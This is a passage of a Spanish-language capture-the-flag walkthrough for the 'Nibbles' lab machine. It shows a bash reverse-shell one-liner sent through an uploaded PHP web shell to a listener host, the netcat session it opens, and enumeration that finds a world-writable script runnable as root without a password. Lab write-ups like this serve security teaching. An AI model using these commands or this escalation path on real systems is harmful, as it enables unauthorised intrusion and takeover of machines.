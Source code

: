 Nos ponemos en escucha por el puerto 443 y ejecutamos:

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=ampersan=$(printf '\046'); bash -c "bash -i >$ampersan /dev/tcp/10.10.14.27/443 0>$ampersan 1"
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.75] 37836
bash: cannot set terminal process group (1372): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ whoami
<ml/nibbleblog/content/private/plugins/my_image$ whoami                      
nibbler
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

Ya nos encontramos dentro de la máquina, pero antes, vamos a realizar un [Tratamiento de la tty](/tratamiento-tty). Somos el usuario **nibbler** y podemos visualizar la flag (user.txt), por lo que ahora vamos a enumerar un poco el sistema para ver de que forma nos podemos convertir en **root**.

```bash
nibbler@Nibbles:/home/nibbler$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$
```

Vemos que podemos ejecutar `/home/nibbler/personal/stuff/monitor.sh` como el usuario **root** sin proporcionar contraseña; por lo tanto vamos a ver los permisos que disponemos sobre el script.

```bash
nibbler@Nibbles:/home/nibbler$ ls -l
total 8
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Mar 18 02:36 user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ ls -l
total 12
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 personal
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Mar 18 02:36 user.txt
nibbler@Nibbles:/home/nibbler$ cd personal
nibbler@Nibbles:/home/nibbler/personal$ ls -l
total 4
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 stuff
nibbler@Nibbles:/home/nibbler/personal$ cd stuff/
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$
```
